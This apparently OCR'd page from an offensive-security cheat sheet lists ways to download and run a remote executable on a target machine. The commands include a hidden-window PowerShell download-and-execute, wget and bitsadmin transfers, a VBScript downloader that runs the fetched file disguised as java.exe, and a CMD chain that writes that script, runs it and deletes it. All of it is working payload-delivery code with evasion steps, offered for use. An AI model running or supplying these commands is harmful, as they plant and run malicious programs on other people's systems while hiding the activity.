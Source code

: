# Download Files

---

Powershell script to download and save as hidden

    powershell -WindowStyle Hidden "IEX (New-Object Net.WebClient).DownloadFile('http://IP/m.exe','c:\windows\temp\java.exe');Start-Process c:\windows\temp\java.exe"

using Wget

    wget -P /tmp http://ip/cmd.txt

Using Bits admin

    bitsadmin /transfer n http://ip/img/wget.exe C:\WINDOWS\Temp\wget.exe

using VB Script

    VBS
    Set Post = CreateObject("Msxml2.XMLHTTP")
    Set Shell = CreateObject("Wscript.Shell")
    Post.Open "GET","http://IP/m.exe",0
    Post.Send()
    Set aGet = CreateObject("ADODB.Stream")
    aGet.Mode = 3
    aGet.Type = 1
    aGet.Open()
    aGet.Write(Post.responseBody)
    afile = "java.exe"
    aGet.SaveToFile afile,2
    Shell.Run (afile)

using CMD * 

    del K8.vbs&
    echo Set Post = CreateObject("Msxml2.XMLHTTP") >> K8.vbs
    &&
    echo Set Shell = CreateObject("Wscript.Shell") >> K8.vbs
    &&
    echo Post.Open "GET","http://192.168.25.128:13272/m.exe",0 >> K8.vbs
    &&
    echo Post.Send() >> K8.vbs
    &&
    echo Set aGet = CreateObject("ADODB.Stream") >> K8.vbs
    &&
    echo aGet.Mode = 3 >> K8.vbs
    &&
    echo aGet.Type = 1 >> K8.vbs
    &&
    echo aGet.Open() >> K8.vbs
    &&
    echo aGet.Write(Post.responseBody) >> K8.vbs
    &&
    echo afile = "java.exe" >> K8.vbs
    &&
    echo aGet.SaveToFile afile,2 >> K8.vbs
    &&
    echo Shell.Run (afile) >>K8.vbs
    &&
    cscript K8.vbs
    &&
    del K8.vbs